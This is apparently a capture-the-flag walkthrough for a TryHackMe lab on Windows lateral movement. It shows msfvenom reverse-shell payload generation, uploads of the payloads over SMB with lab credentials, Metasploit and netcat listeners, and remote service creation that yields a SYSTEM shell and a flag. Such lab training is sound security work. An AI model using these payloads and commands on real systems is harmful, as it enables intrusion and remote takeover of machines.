 ## Lateral Movement and Pivoting

``` Your credentials have been generated: Username: henry.bird Password: Changeme123 ```

### Task 3 - Spawning Processes Remotely

### Creating reverse shell payload exe
```bash
#On AttackBox
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.49.15 LPORT=4444 -o msfvenom-payload.exe
```

### Pushing payload to target machine
```bash
#On AttackBox
smbclient -c 'put msfvenom-payload.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```

### Start Metasploit reverse shell server
```bash
#On AttackBox
msfconsole
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set LHOST lateralmovement
LHOST => lateralmovement
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.50.49.15:4444
```

### Reverse shell session, create and start service on target machine
```bash
#On AttackBox
 nc -lvp 4443
 Listening on [0.0.0.0] (family 0, port 4443)
Connection from ip-10-200-51-249.eu-west-1.compute.internal 54509 received!
#On THMJMP2 (As admin)
C:\Windows\system32>sc.exe \\thmiis.za.tryhackme.com create THMservice-4444 binPath= "%windir%\msfvenom-payload.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com create THMservice-4444 binPath= "%windir%\msfvenom-payload.exe" start= auto
[SC] CreateService SUCCESS

C:\Windows\system32>sc.exe \\thmiis.za.tryhackme.com start THMservice-4444
sc.exe \\thmiis.za.tryhackme.com start THMservice-4444

SERVICE_NAME: THMservice-4444 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 4  RUNNING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 3524
        FLAGS              : 

C:\Windows\system32>
```

### THMIIS reverse shell to run flag.exe
```bash
#On THMIIS
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\Users\t1_leonard.summers\Desktop
cd C:\Users\t1_leonard.summers\Desktop

C:\Users\t1_leonard.summers\Desktop>flag.exe
flag.exe
THM{MOVING_WITH_SERVICES}
```

### Task 4 - Moving Laterally Using WMI

### Create MSI payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > payload.msi
```


### Pushing payload to target machine
```bash
smbclient -c 'put payload.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$' Korine.1994
```


